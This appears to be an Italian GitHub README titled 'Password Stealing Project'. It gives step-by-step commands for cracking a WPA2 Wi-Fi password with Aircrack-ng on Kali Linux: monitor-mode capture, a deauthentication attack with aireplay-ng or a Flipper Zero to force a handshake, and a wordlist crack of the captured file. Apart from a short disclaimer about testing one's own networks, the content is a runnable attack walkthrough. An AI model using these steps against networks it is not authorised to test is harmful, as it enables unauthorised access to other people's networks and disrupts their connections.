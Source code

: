 # $${\color{white}Password \space \color{red}Stealing \space \color{white}Project}$$
Il nostro progetto è stato quello di evidenziare le vulnerabilità di una rete wifi comune a 2.4GHz. Questo progetto nasce solo ed esclusivamente a scopo informativo e vi invitiamo a replicare il progetto con reti create da voi per verificarne le vulnerabilità.

## $${\color{green}Listening \space wifi}$$

Per iniziare ci servirà un OS Linux con scaricato il tool [Aircrack-ng](https://www.aircrack-ng.org/). Possibilmente usate come distro Kali in quanto preinstallato.
Iniziamo aprendo un terminale e seguendo i seguenti comandi: <br>
```bash
┌(root💀kali)-[~]
│
┕$ iwconfig
```
<p align="center">
  <img src="https://cdn.discordapp.com/attachments/894962833773711380/1205236414799806484/1.png?ex=65d7a2e1&is=65c52de1&hm=efddbf203bfb5a72ed726fb09f1d7ef179bfdfb0abc165da05397ee78f9615e9&">
</p>
Una volta eseguito il comando ci usciranno tutte le schede internet che possediamo sulla macchina. Per iniziare creiamo una scheda parallela virtuale per iniziare il listening delle reti: <br>

```bash
┌(root💀kali)-[~]
│
┕$ sudo airomon-ng start wlan
```
<p align="center">
  <img src="https://cdn.discordapp.com/attachments/894962833773711380/1205236418083815434/2.png?ex=65d7a2e2&is=65c52de2&hm=bc9a2b588cddc145579de3a42ba85e83914b73f1a3f8b34bc8c5afdd0662ee75&">
</p>
Successivamente per visualizzare tutte le reti disponibili: <br>

```bash
┌(root💀kali)-[~]
│
┕$ sudo airodump-ng wlan0mon
```
<br>
<p align="center">
  <img src="https://cdn.discordapp.com/attachments/894962833773711380/1205236418327089172/4.png?ex=65d7a2e2&is=65c52de2&hm=f3a07c39e30e47b8ff61a4d6462ff30ecdab02777c04ae4f9481e96146d5263f&">
</p>
Tra i risultati dobbiamo copiare il BSSID della rete in questione ed eseguire il comando:

```bash
┌(root💀kali)-[~]
│
┕$ sudo airodump-ng -canale -w NomeFile -d BSSID wlan0mon
```
In questo modo stiamo verificando solo la rete in questione.
## $${\color{green}Deauth \space \color{red} Attack}$$
Una volta che siamo in listening wifi possiamo procedere con il [Deauth Attack](https://en.wikipedia.org/wiki/Wi-Fi_deauthentication_attack) (Oggi useremo il Flipper Zero ma ci sono altre alternative come ESP32 Marauder ecc...).
Iniziamo facendo una scansione delle reti, selezioniamo la rete in questione e iniziamo l'attacco.
<p align="center">
  <img src="https://cdn.discordapp.com/attachments/894962833773711380/1205237572805201940/IMG_20240208_204300.jpg?ex=65d7a3f5&is=65c52ef5&hm=c392c425e720c22d01c86162d3928e617a214758450acf1ded75b676056fdc25&">
</p>
Attacco deauth integrato <br>

```bash
┌(root💀kali)-[~]
│
┕$ sudo aireplay-ng --deauth 0 -a BSSID -c STATION wlan0mon
```
<p align="center">
  <img src="https://cdn.discordapp.com/attachments/894962833773711380/1205236418616627231/5.png?ex=65d7a2e2&is=65c52de2&hm=f9644f3e6bb8f83eaf5c1015c61aa207a690676337c5b10d5e45bde5d71091d4&">
</p>
## WPA handshake decrypt
Una volta effettuato l'attacco sul terminale linux dovremo trovare un WPA handshake. Se non compare continuiamo l'attacco in modo che il dispositivo si ricolleghi. Una volta trovato il WPA handshake nella cartella locale troveremo dei file "NomeFile" che contengono tutte le informazioni che ci servono sulla rete. Per eseguire la decriptazione della password del wifi necessitiamo di un file che contenga molte password da provare sul file criptato. Per iniziare la decriptazione: <br>

```bash
┌(root💀kali)-[~]
│
┕$ sudo aircrack-ng NomeFile-01.cap -w Password.txt 
```
<p align="center">
  <img src="https://cdn.discordapp.com/attachments/894962833773711380/1205236418977472573/6.png?ex=65d7a2e2&is=65c52de2&hm=c6b58fe3c05a4b49fa33d9e3d85432edd2f321823269aa00fefa3232dc6756d0&">
</p>
Il tempo di decriptazione può variare in base alla difficoltà della password.

## $${\color{orange}Tools}$$
[Flipper Zero](https://flipperzero.one/) accoppiato con [ESP32](https://en.wikipedia.org/wiki/ESP32). <br>
Deauther più economico [Marauder](https://github.com/justcallmekoko/ESP32Marauder) sempre con base ESP32. <br>
Tool usato per condividere lo schermo in rete locale [Live-ScreenShare](https://github.com/callmenoway/Live-ScreenShare)
